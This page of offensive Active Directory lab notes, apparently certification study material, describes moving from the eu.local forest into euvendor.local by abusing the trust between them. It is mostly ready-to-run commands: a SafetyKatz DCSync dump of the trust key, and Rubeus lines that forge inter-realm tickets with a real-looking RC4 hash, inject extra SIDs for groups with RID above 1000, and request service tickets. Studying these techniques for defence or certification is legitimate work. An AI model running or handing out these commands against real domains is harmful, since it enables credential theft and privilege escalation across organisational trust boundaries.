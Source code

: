 # Methodology
>1. Dump the trust key of the child domain.
>2. Check if SID Filtering is enabled.
>3. Forge an inter-forest ticket.
>4. Inject the ticket. 
>5. Enumerate group RID > 1000 on the target domain.
>6. Forge an inter-forest ticket with special SIDS.
>7. Inject the ticket


>**ℹ️ Info:**
>In this example we go from `eu.local` to `euvendor.local` .

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## AD Module
**Check if SID Filtering is enabled:**
```powershell
Get-ADTrust -Filter *
```

**Look for groups with RID higher than 1000 in the target machine:**
```powershell
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server euvendor.local
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Dump trust key for the inter-forest trust:**
```cmd
SafetyKatz.exe '"lsadump::dcsync /user:eu\euvendor$"'
```

## Rubeus

**Forge an inter-realm TGT:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/eu.local /rc4:b96659c7b2109d2e63e6de676d48646c /sid:S-1-5-21-3657428294-2017276338-1274645009 /nowrap 
```

**Inject the ticket:**
```cmd
Rubeus.exe asktgs /ticket:doIFEzCCBQ /service:CIFS/euvendor-dc.euvendor.local /dc:euvendordc.euvendor.local /ptt
```

>**ℹ️ Info:**
>We can only access specific resources that are explicitly shared!

**Forge a TGS using inter-realm TGT:**
```cmd
Rubeus.exe asktgs /service:http/euvendornet.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:doIFOzCCBT...
```

**Inject SID history of group with RID > 1000:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/eu.local /rc4:b96659c7b2109d2e63e6de676d48646c /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /nowrap
```

**Request TGS with the TGT:**
```cmd
Rubeus.exe asktgs /service:http/euvendornet.euvendor.local /dc:euvendor-dc.euvendor.local /ptt /ticket:doIFOzCCBT...
```